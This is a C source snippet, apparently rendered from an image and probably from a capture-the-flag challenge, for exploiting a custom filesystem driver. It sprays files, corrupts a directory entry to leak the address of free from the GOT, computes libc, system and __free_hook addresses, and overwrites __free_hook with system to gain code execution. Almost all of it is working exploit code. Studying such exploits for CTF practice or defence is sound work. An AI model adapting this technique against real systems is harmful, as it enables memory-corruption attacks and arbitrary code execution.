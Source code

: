```c

	for (int i = 0; i < SPRAY_SIZE; i++) {
		sprintf(filename, "/mnt/dir%d", i);
		MKDIR(filename);
		sprintf(filename, "/mnt/dir%d/fake_file", i);
		OPEN(i+1, filename, O_RDWR | O_CREAT);
		TRUNCATE(i+1, 0x20);
		CLOSE(i+1);
	}

	READ(0, 0, 0x30); // dir entry
	if (strncmp("fake_file", buf, 9)) {
		puts("failed");
		return 0;
	}

	printf("filename=%s\n", buf);

	*(size_t *)&buf[0x24] = 0x8;  		// size
	*(size_t *)&buf[0x28] = 0x405018;   // content ptr = got['free']
	
	WRITE(0, 0, 0x30); // modify ./mnt/dir/1.txt File Header

	puts("leak libc");
	sleep(1);

	size_t free_ptr;
	int fd = -1;
	for (int i = 0; i < SPRAY_SIZE; i++) {
		sprintf(filename, "/mnt/dir%d/fake_file", i);
		lstat(filename, &st);
		printf("size = %d\n", st.st_size);
		if (st.st_size == 8) {
			fd = 1;
			OPEN(1, filename, O_RDWR);
			break;
		}
	}

	if (fd < 0) {
		puts("libc not found");
		return 0;
	}

	READ(1, 0, 8);
	free_ptr = *(size_t *)&buf[0];

	size_t lbase = free_ptr - 0x9d850;
	size_t system_ptr = lbase + 0x55410;
	size_t free_hook = lbase + 0x1eeb28;
	printf("free = %#lx\n", free_ptr);
	printf("lbase = %#lx\n", lbase);

	puts("content ptr -> free_hook");
	*(size_t *)&buf[0] = free_hook;
	WRITE(0, 0x28, 8);

	puts("set free_hook=system");
	*(size_t *)&buf[0] = system_ptr;
	WRITE(fd, 0, 8);
	
	// free !
	puts("free");
```